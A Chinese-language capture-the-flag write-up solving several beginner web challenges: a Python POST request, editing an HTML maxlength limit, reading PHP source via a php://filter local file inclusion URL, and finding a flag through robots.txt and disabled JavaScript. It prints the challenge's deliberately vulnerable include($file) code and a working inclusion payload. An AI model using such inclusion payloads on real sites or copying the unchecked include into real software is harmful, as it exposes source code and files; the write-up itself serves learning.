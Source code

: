 不过后来用脚本的办法, 拓展性高一点:

```python
import requests
datas = {'a'}
r = requests.post("http://39.108.11.206:10001/", data=datas)
print(r.text)
print(r.status_code)
```

### Introducing Web

打开网页, 然后按F12, 然后..就没有然后了..

### Easy Limitation

打开网页, 保存到本地, 打开HTML, 把下面这句:

```html
<input class="form-control" type="text" name="key" maxlength="14" placeholder="只需要输入msc_1s_Gre@t即可获取flag">
```

里的`maxlength`改成15或者更大的数, 然后本地浏览器打开改好的html, 输入, 提交, 拿到`flag`.

### Procotol

从php的官方文档里读了好久...然后拼出来这么一句:

```
http://39.108.11.206:10003/?file=php://filter/read=convert.base64-encode/resource=./index.php
```

浏览器打开后能看到一串`base64`串, 复制下来解码:

```php+HTML
<?php
error_reporting(0);
echo '<p>the flag was put in the index.php, can you get it?</p>';


$file=$_GET['file'];
include($file);
//moectf{YoU_g0t_f1@g}
?>
```

然后就拿到`flag`了...

说来这种把源码换成`base64`再输出防止被执行的方法真骚啊..

### Restrictions

搜索引擎会读取站点下的`robots.txt`来判断爬取哪些页面. 然后我们打开`https://moectf.cn/robots.txt`, 发现提示有什么脚本被执行了删掉了`flag`...

打开设置禁用JS脚本, 刷新网页, F12, 在源代码里看见`flag`...

### 是时候展示十八年单身的手速了
